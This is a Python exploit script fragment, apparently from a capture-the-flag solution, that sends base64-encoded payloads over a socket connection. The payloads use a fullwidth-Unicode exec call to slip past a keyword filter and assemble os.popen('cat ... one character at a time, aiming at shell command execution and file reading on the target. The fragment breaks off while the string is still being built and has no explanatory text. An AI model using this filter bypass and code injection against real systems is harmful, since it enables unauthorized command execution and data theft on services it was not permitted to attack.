 ```py

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJvIicpfQ==") # a = "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZSInKX0=") # a += "e"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibiInKX0=") # a += "n"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKCInKX0=") # a += "("
time.sleep(1)
print(con.recv(4096).decode())


################# name
print("c = \"")
con.send(b"ezU6772FeGVjKCdnbG9iYWwgYztjPSJcJyInKX0=") # c = """
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz1jJyl9") # a += c
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYyInKX0=") # a += "c"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())
```